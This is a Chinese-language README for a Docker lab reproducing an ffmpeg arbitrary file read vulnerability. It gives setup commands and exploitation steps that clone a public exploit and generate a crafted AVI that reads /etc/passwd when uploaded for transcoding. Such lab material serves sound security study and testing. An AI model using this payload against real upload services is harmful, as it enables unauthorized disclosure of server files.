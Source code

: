 # ffmpeg 任意文件读取漏洞环境

参考资料：

 - http://bobao.360.cn/learning/detail/4032.html
 - https://hackerone.com/reports/242831
 - https://github.com/neex/ffmpeg-avi-m3u-xbin

## 环境搭建

编译及启动环境

```
docker-compose build
docker-compose up -d
```

环境启动后监听8080端口，访问`http://your-ip:8080/`即可查看。

## 漏洞利用

漏洞原理不再赘述，直接下载exp，并生成payload：

```
# 下载exp
git clone https://github.com/neex/ffmpeg-avi-m3u-xbin
cd ffmpeg-avi-m3u-xbin

# 生成payload
./gen_xbin_avi.py file:///etc/passwd exp.avi
```

生成exp.avi，在`http://your-ip:8080/`上传。后端将会将你上传的视频用ffmpeg转码后显示，转码时因为ffmpeg的任意文件读取漏洞，可将文件信息读取到视频中：

![](01.png)

你也可以执行`docker-compose exec web bash`进入本环境内部，测试ffmpeg。
